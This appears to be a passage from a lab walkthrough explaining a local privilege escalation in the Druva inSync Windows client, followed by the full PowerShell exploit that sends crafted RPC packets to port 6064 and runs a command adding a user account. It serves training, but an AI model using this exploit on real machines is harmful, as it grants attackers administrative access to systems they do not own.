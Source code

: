 ![Druva Exploit Diagram](./assets/ff706d6530426d3123c0983acd61f934.png)

The first packet is simply a hello packet that contains a fixed  string. The second packet indicates that we want to execute procedure  number 5, as this is the vulnerable procedure that will execute any  command for us. The last two packets are used to send the length of the  command and the command string to be executed, respectively.

Initially published by Matteo Malvica [here](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html), the following exploit can be used in your target machine to elevate  privileges and retrieve this task's flag. For your convenience, here is  the original exploit's code:

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
